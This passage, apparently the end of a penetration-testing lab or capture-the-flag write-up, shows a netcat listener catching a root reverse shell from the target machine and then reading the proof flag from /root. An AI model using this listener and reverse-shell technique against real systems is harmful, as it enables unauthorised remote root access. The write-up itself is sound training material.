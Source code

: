 and we've caught a shell!

```
┌──(kali㉿kali)-[~/offsec/fail]
└─$ nc -lvnp 80  
listening on [any] 80 ...
connect to [192.168.45.172] from (UNKNOWN) [192.168.151.126] 35032
root@fail:/#
```

We find our proof where we expect it:

```
root@fail:/# cd /root
cd /root
root@fail:/root# cat proof.txt
cat proof.txt
f3ccc46454bf6b2b1a0340d80661e770
```